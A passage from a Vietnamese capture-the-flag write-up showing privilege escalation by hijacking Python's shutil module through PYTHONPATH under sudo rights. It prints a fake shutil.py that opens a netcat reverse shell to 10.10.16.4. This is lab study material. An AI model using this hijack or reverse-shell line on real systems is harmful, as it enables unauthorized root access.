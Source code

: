 cat /opt/scripts/backup.py

```python
#!/usr/bin/python3

from **shutil** import **make_archive**

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
```

Dựa vào Sudo Rights được định nghĩa và 2 file trên, user Waldo có thể chỉ định environment khi execute script admin_tasks.sh với Sudo Rights. Ở option 6 (backup_root()) của script, nó trỏ đến backup.py, tại đây file này import method make_archive từ module shutil

→ kỹ thuật python hijacking

tạo ra một module tên shutil.py với method bên trong nó là make_archive() nhưng script sẽ dùng để netcat. chỉ định PYTHONPATH cho python ở thư mục đặt shutil.py

Tên phải đúng vì không có quyền ghi/thực thi với backup.py, nó chỉ có thể gọi khi thông qua admin_tasks.sh (với Sudo Rights ). Lưu ý backup.py dùng Python 3.

nội dung file shutil.py

```python
import os

def **make_archive**(a, b, c):

os.system("nc 10.10.16.4 1234 -e'/bin/bash'")
```

thực thi

![https://lh7-us.googleusercontent.com/vUzIH76vkKkxsTo84MgOZ9cpOEkhomtGFTBxEICkI09mI_cssXlckoRpT6DBRQgcwOnbqiswAqy3aVv6wf_ILuohmTAx21HdVUj7qfjbQIKeVC8lKkJnWHli_jP6FTc7Pv-vsRJdFnUW](https://lh7-us.googleusercontent.com/vUzIH76vkKkxsTo84MgOZ9cpOEkhomtGFTBxEICkI09mI_cssXlckoRpT6DBRQgcwOnbqiswAqy3aVv6wf_ILuohmTAx21HdVUj7qfjbQIKeVC8lKkJnWHli_jP6FTc7Pv-vsRJdFnUW)

![https://lh7-us.googleusercontent.com/7foyNodQr1jUQQDyTwOUiTxJH4ZQ7Igkgb97_OjSJl3vgtumn_4H_toUcQAtOxRgmSl3Oy8yNvb6qTZ5AembzfHPX-mN-08D6ALT02GHdFiknyl0Hwnnlb51fbBh7yjjk_TAeVBssELV](https://lh7-us.googleusercontent.com/7foyNodQr1jUQQDyTwOUiTxJH4ZQ7Igkgb97_OjSJl3vgtumn_4H_toUcQAtOxRgmSl3Oy8yNvb6qTZ5AembzfHPX-mN-08D6ALT02GHdFiknyl0Hwnnlb51fbBh7yjjk_TAeVBssELV)

![https://lh7-us.googleusercontent.com/5flvxJI6y7aXOCxLKUpjwRLWXkRLPOglL32ZS6yNDWDio3VJ0VmXvZlGVxQpnlBdC-Vuw9WsFrELt8qx6f4gE-HRwpJIU-0cMjTwL10XMARvClE8Nwn89yJId3ortnvJOmAbhFNJlgUh](https://lh7-us.googleusercontent.com/5flvxJI6y7aXOCxLKUpjwRLWXkRLPOglL32ZS6yNDWDio3VJ0VmXvZlGVxQpnlBdC-Vuw9WsFrELt8qx6f4gE-HRwpJIU-0cMjTwL10XMARvClE8Nwn89yJId3ortnvJOmAbhFNJlgUh)